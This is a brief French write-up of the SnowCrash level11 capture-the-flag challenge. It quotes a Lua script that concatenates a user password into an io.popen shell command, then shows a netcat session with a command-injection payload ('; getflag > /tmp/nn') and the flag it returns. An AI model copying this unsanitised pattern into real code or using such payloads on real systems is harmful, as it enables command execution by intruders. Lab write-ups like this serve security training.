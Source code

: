 En lisant le script lua, on retrouve une concatenation de string non sanitizee dans une commande : 

```lua
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
[...]
```
Il sufit d'effectuer une injection:

```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: hola ; getflag > /tmp/nn; echo loa
Erf nope..
level11@SnowCrash:~$ cat /tmp/nn
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
